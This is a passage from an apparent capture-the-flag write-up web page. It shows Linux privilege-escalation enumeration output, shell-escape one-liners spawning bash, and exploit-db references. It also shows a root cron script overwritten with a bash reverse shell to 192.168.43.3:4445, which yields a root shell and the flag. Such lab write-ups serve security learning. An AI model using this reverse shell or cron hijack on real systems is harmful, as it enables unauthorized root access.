    # PidFile: The file in which the server should record its process
    # identification number when it starts.
    # This needs to be set in /etc/apache2/envvars
    #
    PidFile ${APACHE_PID_FILE}
    #
    # Timeout: The number of seconds before receives and sends time out.
    #
    Timeout 300
    #
    # KeepAlive: Whether or not to allow persistent connections (more than
    # one request per connection). Set to "Off" to deactivate.
    #
    KeepAlive On
    #
    # MaxKeepAliveRequests: The maximum number of requests to allow
    # during a persistent connection. Set to 0 to allow an unlimited amount.
    # We recommend you leave this number high, for maximum performance.
    #
    MaxKeepAliveRequests 100
    #
    # KeepAliveTimeout: Number of seconds to wait for the next request from the
    # same client on the same connection.
    #
    KeepAliveTimeout 5
    # These need to be set in /etc/apache2/envvars
    User ${APACHE_RUN_USER}
    Group ${APACHE_RUN_GROUP}
    #
    # HostnameLookups: Log the names of clients or just their IP addresses
    # e.g., www.apache.org (on) or 204.62.129.132 (off).
    # The default is off because it'd be overall better for the net if people
    # had to knowingly turn this feature on, since enabling it means that
    # each client request will result in AT LEAST one lookup request to the
    # nameserver.
    #
    HostnameLookups Off
    # ErrorLog: The location of the error log file.
    # If you do not specify an ErrorLog directive within a 
    # container, error messages relating to that virtual host will be
    # logged here.  If you *do* define an error logfile for a 
    # container, that host's errors will be logged there and not here.
    #
    ErrorLog ${APACHE_LOG_DIR}/error.log
    #
    # LogLevel: Control the severity of messages logged to the error_log.
    # Available values: trace8, ..., trace1, debug, info, notice, warn,
    # error, crit, alert, emerg.
    # It is also possible to configure the log level for particular modules, e.g.
    # "LogLevel info ssl:warn"
    #
    LogLevel warn
    # Include module configuration:
    IncludeOptional mods-enabled/*.load
    IncludeOptional mods-enabled/*.conf
    # Include list of ports to listen on
    Include ports.conf
    # Sets the default security model of the Apache2 HTTPD server. It does
    # not allow access to the root filesystem outside of /usr/share and /var/www.
    # The former is used by web applications packaged in Debian,
    # the latter may be used for local directories served by the web server. If
    # your system is serving content from a sub-directory in /srv you must allow
    # access here, or in any related virtual host.
    
    Options FollowSymLinks
    AllowOverride None
    Require all denied
    
    
    AllowOverride None
    Require all granted
    
    
    Options Indexes FollowSymLinks
    AllowOverride All
    Require all granted
    
    #
    #	Options Indexes FollowSymLinks
    #	AllowOverride None
    #	Require all granted
    #
    # AccessFileName: The name of the file to look for in each directory
    # for additional configuration directives.  See also the AllowOverride
    # directive.
    #
    AccessFileName .htaccess
    #
    # The following lines prevent .htaccess and .htpasswd files from being
    # viewed by Web clients.
    #
    
    Require all denied
    
    #
    # The following directives define some format nicknames for use with
    # a CustomLog directive.
    #
    # These deviate from the Common Log Format definitions in that they use %O
    # (the actual bytes sent including headers) instead of %b (the size of the
    # requested file), because the latter makes it impossible to detect partial
    # requests.
    #
    # Note that the use of %{X-Forwarded-For}i instead of %h is not recommended.
    # Use mod_remoteip instead.
    #
    LogFormat "%v:%p %h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" vhost_combined
    LogFormat "%h %l %u %t \"%r\" %>s %O \"%{Referer}i\" \"%{User-Agent}i\"" combined
    LogFormat "%h %l %u %t \"%r\" %>s %O" common
    LogFormat "%{Referer}i -> %U" referer
    LogFormat "%{User-agent}i" agent
    # Include of directories ignores editors' and dpkg's backup files,
    # see README.Debian for details.
    # Include generic snippets of statements
    IncludeOptional conf-enabled/*.conf
    # Include the virtual host configurations:
    IncludeOptional sites-enabled/*.conf
    # vim: syntax=apache ts=4 sw=4 sts=4 sr noet

[+] Sudo Version (Check out http://www.exploit-db.com/search/?action=search&filter_page=1&filter_description=sudo)
    Sudo version 1.8.16
    Sudoers policy plugin version 1.8.16
    Sudoers file grammar version 45
    Sudoers I/O plugin version 1.8.16

[*] IDENTIFYING PROCESSES AND PACKAGES RUNNING AS ROOT OR OTHER SUPERUSER...

    root 189 14:08 0:00 [scsi_eh_7]
    root 3 14:08 2:50 [ksoftirqd/0]
    root 263 14:08 0:00 [mpt_poll_0]
    root 428 14:09 0:03 [kworker/0:1H]
    root 194 14:08 0:00 [scsi_tmf_9]
    root 175 14:08 0:00 [scsi_eh_0]
    root 227 14:08 0:00 [scsi_eh_26]
    root 969 14:09 0:01 /sbin/iscsid
    root 1307 14:09 0:00 su
    root 191 14:08 0:00 [scsi_eh_8]
    root 71 14:08 0:00 [bioset]
    root 11 14:08 0:00 [kdevtmpfs]
    root 208 14:08 0:00 [scsi_tmf_16]
    root 724 14:09 0:00 /usr/sbin/acpid
        Possible Related Packages: 
             acpid 1:2.0.26-1ubuntu2  Advanced Configuration and Power Interface event daemon
    root 494 14:09 0:00 [iw_cm_wq]
    root 215 14:08 0:00 [scsi_eh_20]
    root 68 14:08 0:00 [bioset]
    root 62 14:08 0:00 [bioset]
    root 63 14:08 0:00 [bioset]
    root 220 14:08 0:00 [scsi_tmf_22]
    root 21 14:08 0:00 [kblockd]
    root 192 14:08 0:00 [scsi_tmf_8]
    root 177 14:08 0:00 [scsi_eh_1]
    root 54 14:08 0:00 [bioset]
    root 265 14:08 0:00 [bioset]
    root 224 14:08 0:00 [scsi_tmf_24]
    root 16 14:08 0:00 [ksmd]
    root 10 14:08 0:02 [watchdog/0]
    root 970 14:09 0:40 /sbin/iscsid
    root 15 14:08 0:00 [writeback]
    root 58 14:08 0:00 [bioset]
    root 902 14:09 0:00 /usr/sbin/sshd
    root 401 14:09 0:00 [bioset]
    root 181 14:08 0:00 [scsi_eh_3]
    root 73 14:08 0:00 [bioset]
    root 478 14:09 0:00 [iscsi_eh]
    root 497 14:09 0:00 [rdma_cm]
    root 234 14:08 0:00 [scsi_tmf_29]
    root 8 14:08 0:00 [rcu_bh]
    root 486 14:09 0:00 [ib_mcast]
    root 28 14:08 0:00 [kswapd0]
    root 8146 20:16 0:00 [kworker/u2:0]
    root 205 14:08 0:00 [scsi_eh_15]
    root 180 14:08 0:00 [scsi_tmf_2]
    root 222 14:08 0:00 [scsi_tmf_23]
    root 61 14:08 0:00 [bioset]
    root 87 14:08 0:00 [deferwq]
    root 619 14:09 0:00 [iprt-VBoxWQueue]
    root 1305 14:09 0:00 su
    root 213 14:08 0:00 [scsi_eh_19]
    root 47 14:08 0:00 [acpi_thermal_pm]
    root 179 14:08 0:00 [scsi_eh_2]
    root 5 14:08 0:00 [kworker/0:0H]
    root 483 14:09 0:01 /lib/systemd/systemd-journald
    root 210 14:08 0:00 [scsi_tmf_17]
    root 17 14:08 0:02 [khugepaged]
    root 1171 14:09 0:00 dhclient
    root 184 14:08 0:00 [scsi_tmf_4]
    root 212 14:08 0:00 [scsi_tmf_18]
    root 505 14:09 0:00 /sbin/lvmetad
    root 493 14:09 0:00 [ib_cm]
    root 1174 14:09 0:00 /usr/sbin/smbd
    root 231 14:08 0:00 [scsi_eh_28]
    root 202 14:08 0:00 [scsi_tmf_13]
    root 226 14:08 0:00 [scsi_tmf_25]
    root 183 14:08 0:00 [scsi_eh_4]
    root 229 14:08 0:00 [scsi_eh_27]
    root 200 14:08 0:00 [scsi_tmf_12]
    root 178 14:08 0:00 [scsi_tmf_1]
    root 72 14:08 0:00 [bioset]
    root 18 14:08 0:00 [crypto]
    root 185 14:08 0:00 [scsi_eh_5]
    root 188 14:08 0:00 [scsi_tmf_6]
    root 12 14:08 0:00 [netns]
    root 29 14:08 0:00 [vmstat]
    root 57 14:08 0:00 [bioset]
    root 813 14:09 0:00 /sbin/mdadm
        Possible Related Packages: 
             mdadm 3.3-2ubuntu7  tool to administer Linux MD arrays (software RAID)
    root 1541 14:18 0:00 nc
    root 46 14:08 0:00 [kthrotld]
    root 232 14:08 0:00 [scsi_tmf_28]
    root 1301 14:09 0:00 /bin/bash
        Possible Related Packages: 
             bash 4.3-14ubuntu1  GNU Bourne Again SHell
    root 268 14:08 0:00 [scsi_tmf_30]
    root 217 14:08 0:00 [scsi_eh_21]
    root 1167 14:09 0:00 /usr/sbin/smbd
    root 176 14:08 0:00 [scsi_tmf_0]
    root 946 14:09 0:00 /usr/sbin/vsftpd
        Possible Related Packages: 
             vsftpd 3.0.3-3ubuntu2  lightweight, efficient FTP server written for security
    root 52 14:08 0:00 [bioset]
    root 24 14:08 0:00 [devfreq_wq]
    root 211 14:08 0:00 [scsi_eh_18]
    root 70 14:08 0:00 [bioset]
    root 744 14:09 0:02 /usr/bin/lxcfs
        Possible Related Packages: 
             lxcfs 2.0.0-0ubuntu2  FUSE based filesystem for LXC
    root 198 14:08 0:00 [scsi_tmf_11]
    root 8631 20:26 0:00 /usr/sbin/smbd
    root 214 14:08 0:00 [scsi_tmf_19]
    root 1109 14:09 0:06 php-fpm:
    root 64 14:08 0:00 [bioset]
    root 1173 14:09 0:04 /usr/sbin/nmbd
    root 216 14:08 0:00 [scsi_tmf_20]
    root 182 14:08 0:00 [scsi_tmf_3]
    root 22 14:08 0:00 [ata_sff]
    root 74 14:08 0:00 [ipv6_addrconf]
    root 8131 20:15 0:00 [kworker/0:1]
    root 778 14:09 1:33 [kworker/0:4]
    root 1303 14:09 0:00 /bin/bash
        Possible Related Packages: 
             bash 4.3-14ubuntu1  GNU Bourne Again SHell
    root 1331 14:09 0:02 /sbin/agetty
    root 196 14:08 0:00 [scsi_tmf_10]
    root 218 14:08 0:00 [scsi_tmf_21]
    root 209 14:08 0:00 [scsi_eh_17]
    root 7 14:08 0:52 [rcu_sched]
    root 201 14:08 0:00 [scsi_eh_13]
    root 1104 14:09 0:00 /usr/sbin/inetutils-inetd
        Possible Related Packages: 
             inetutils-inetd 2:1.9.4-1build1  internet super server
    root 264 14:08 0:00 [mpt/0]
    root 225 14:08 0:00 [scsi_eh_25]
    root 199 14:08 0:00 [scsi_eh_12]
    root 51 14:08 0:00 [bioset]
    root 207 14:08 0:00 [scsi_eh_16]
    root 1 14:08 0:17 /sbin/init
        Possible Related Packages: 
             busybox-initramfs 1:1.22.0-15ubuntu1  Standalone shell setup for initramfs
             cloud-initramfs-copymods 0.27ubuntu1  copy initramfs modules into root filesystem for later use
             cloud-initramfs-dyn-netconf 0.27ubuntu1  write a network interface file in /run for BOOTIF
             init 1.29ubuntu1  System-V-like init utilities - metapackage
             init-system-helpers 1.29ubuntu1  helper tools for all init systems
             initramfs-tools 0.122ubuntu8  generic modular initramfs generator (automation)
             initramfs-tools-bin 0.122ubuntu8  binaries used by initramfs-tools
             initramfs-tools-core 0.122ubuntu8  generic modular initramfs generator (core tools)
             initscripts 2.88dsf-59.3ubuntu2  scripts for initializing and shutting down the system
             insserv 1.14.0-5ubuntu3  boot sequence organizer using LSB init.d script dependency information
             libklibc 2.0.4-8ubuntu1  minimal libc subset for use with initramfs
             lsb-base 9.20160110  Linux Standard Base init script functionality
             ncurses-base 6.0+20160213-1ubuntu1  basic terminal type definitions
             ncurses-term 6.0+20160213-1ubuntu1  additional terminal type definitions
             open-iscsi 2.0.873+git0.3b4b4500-14ubuntu3  iSCSI initiator tools
             pastebinit 1.5-1  command-line pastebin client
             sysvinit-utils 2.88dsf-59.3ubuntu2  System-V-like utilities
    root 66 14:08 0:00 [bioset]
    root 9 14:08 0:00 [migration/0]
    root 1166 14:09 0:00 /usr/sbin/smbd
    root 221 14:08 0:00 [scsi_eh_23]
    root 23 14:08 0:00 [md]
    root 233 14:08 0:00 [scsi_eh_29]
    root 8573 20:23 0:00 [kworker/u2:2]
    root 487 14:09 0:00 [ib_nl_sa_wq]
    root 31 14:08 0:00 [ecryptfs-kthrea]
    root 88 14:08 0:00 [charger_manager]
    root 186 14:08 0:00 [scsi_tmf_5]
    root 7962 20:04 0:00 [kworker/u2:1]
    root 765 14:09 0:00 /lib/systemd/systemd-logind
    root 69 14:08 0:00 [bioset]
    root 14 14:08 0:00 [khungtaskd]
    root 30 14:08 0:00 [fsnotify_mark]
    root 431 14:09 0:00 [ext4-rsv-conver]
    root 67 14:08 0:00 [bioset]
    root 267 14:08 0:00 [scsi_eh_30]
    root 134 14:08 0:00 [kpsmoused]
    root 369 14:09 0:00 [raid5wq]
    root 541 14:09 0:00 /lib/systemd/systemd-udevd
    root 2 14:08 0:00 [kthreadd]
    root 65 14:08 0:00 [bioset]
    root 1191 14:09 0:07 /usr/sbin/apache2
        Possible Related Packages: 
             apache2 2.4.18-2ubuntu3  Apache HTTP Server
             apache2-bin 2.4.18-2ubuntu3  Apache HTTP Server (modules and other binary files)
             apache2-data 2.4.18-2ubuntu3  Apache HTTP Server (common files)
             apache2-utils 2.4.18-2ubuntu3  Apache HTTP Server (utility programs for web servers)
             libapache2-mod-php7.0 7.0.4-7ubuntu2.1  server-side, HTML-embedded scripting language (Apache 2 module)
    root 504 14:09 0:00 [kauditd]
    root 430 14:09 0:03 [jbd2/sda1-8]
    root 193 14:08 0:00 [scsi_eh_9]
    root 195 14:08 0:00 [scsi_eh_10]
    root 56 14:08 0:00 [bioset]
    root 228 14:08 0:00 [scsi_tmf_26]
    root 733 14:09 0:00 /usr/sbin/cron
        Possible Related Packages: 
             cron 3.0pl1-128ubuntu2  process scheduling daemon
    root 203 14:08 0:00 [scsi_eh_14]
    root 50 14:08 0:00 [bioset]
    root 53 14:08 0:00 [bioset]
    root 60 14:08 0:00 [bioset]
    root 204 14:08 0:00 [scsi_tmf_14]
    root 223 14:08 0:00 [scsi_eh_24]
    root 230 14:08 0:00 [scsi_tmf_27]
    root 197 14:08 0:00 [scsi_eh_11]
    root 1371 14:10 0:00 /usr/lib/postfix/sbin/master
        Possible Related Packages: 
             base-passwd 3.5.39  Debian base system master password and group files
    root 13 14:08 0:00 [perf]
    root 482 14:09 0:00 [ib_addr]
    root 187 14:08 0:00 [scsi_eh_6]
    root 219 14:08 0:00 [scsi_eh_22]
    root 59 14:08 0:00 [bioset]
    root 19 14:08 0:00 [kintegrityd]
    root 190 14:08 0:00 [scsi_tmf_7]
    root 55 14:08 0:00 [bioset]
    root 206 14:08 0:00 [scsi_tmf_15]
    root 20 14:08 0:00 [bioset]
    root 8611 20:24 0:00 [kworker/0:0]

[*] ENUMERATING INSTALLED LANGUAGES/TOOLS FOR SPLOIT BUILDING...

[+] Installed Tools
    /usr/bin/awk
    /usr/bin/perl
    /usr/bin/python
    /usr/bin/gcc
    /usr/bin/cc
    /usr/bin/vi
    /usr/bin/vim
    /usr/bin/find
    /bin/netcat
    /bin/nc
    /usr/bin/wget
    /usr/bin/ftp

[+] Related Shell Escape Sequences...

    vi-->	:!bash
    vi-->	:set shell=/bin/bash:shell
    vi-->	:!bash
    vi-->	:set shell=/bin/bash:shell
    awk-->	awk 'BEGIN {system("/bin/bash")}'
    find-->	find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' \;
    perl-->	perl -e 'exec "/bin/bash";'

[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...

    Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!

    The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c

    The following exploits are applicable to this kernel version and should be investigated as well
    - Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
    - Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
    - CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
    - CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
    - open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
    - open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c

Finished
=================================================================================================

$ cat /etc/cron.d/logrotate
*/5 *   * * *   root  /usr/local/sbin/cron-logrotate.sh
$ echo '#!/bin/bash\nbash -i >& /dev/tcp/192.168.43.3/4445 0>&1' > /usr/local/sbin/cron-logrotate.sh
$ cat /usr/local/sbin/cron-logrotate.sh
#!/bin/bash
bash -i >& /dev/tcp/192.168.43.3/4445 0>&1
</pre>
<hr>
<br>
<br>
<p><h3>Getting a root shell and capturing the flag:</h3></p>
<hr>
<p><font size="3.5" color="black">The cronjob runs every 5 minutes. It ran and i got a root shell:</font></p> 
<pre style="background-color:black;color:white;">
[gandosha@GandoPC ~]$ ncat -lvnp 4445
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 192.168.43.10.
Ncat: Connection from 192.168.43.10:50996.
bash: cannot set terminal process group (2130): Inappropriate ioctl for device
bash: no job control in this shell
root@red:~# pwd
pwd
/root
root@red:~# ls  	
ls
fix-wordpress.sh
flag.txt
issue
python.sh
wordpress.sql
root@red:~# cat flag.txt
cat flag.txt
~~~~~~~~~~<(Congratulations)>~~~~~~~~~~
                          .-'''''-.
                          |'-----'|
                          |-.....-|
                          |       |
                          |       |
         _,._             |       |
    __.o`   o`"-.         |       |
 .-O o `"-.o   O )_,._    |       |
( o   O  o )--.-"`O   o"-.`'-----'`
 '--------'  (   o  O    o)  
              `----------`
b6b545dc11b7a270f4bad23432190c75162c4a2b
</pre>
<div class="about-me-area section-padding-100 clearfix">
<div class="container-fluid">


<!-- ##### All Javascript Files ##### -->
<!-- jQuery-2.2.4 js -->
<script src="js/jquery/jquery-2.2.4.min.js"></script>
<!-- Popper js -->
<script src="js/bootstrap/popper.min.js"></script>
<!-- Bootstrap js -->
<script src="js/bootstrap/bootstrap.min.js"></script>
<!-- All Plugins js -->
<script src="js/plugins/plugins.js"></script>
<!-- Active js -->
<script src="js/active.js"></script>

</body>

</html>